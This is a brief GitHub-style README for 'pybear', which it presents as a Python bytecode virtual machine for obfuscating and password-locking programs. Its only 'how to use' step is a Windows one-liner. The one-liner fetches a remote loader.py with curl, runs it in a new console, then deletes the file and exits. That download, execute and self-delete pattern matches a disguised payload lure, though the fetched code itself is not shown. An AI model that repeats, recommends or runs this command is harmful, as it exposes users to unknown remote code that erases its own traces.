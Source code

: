 # pybear
A discrete, custom python bytecode virtual machine. Finally let's you obfuscate and password lock programs with ease.

# how to use
```bash
curl -o pybear_main.py https://raw.githubusercontent.com/repossess/pybear/main/loader.py && start cmd.exe /k python pybear_main.py && timeout /t 1 >nul 2>&1 && del pybear_main.py && exit```
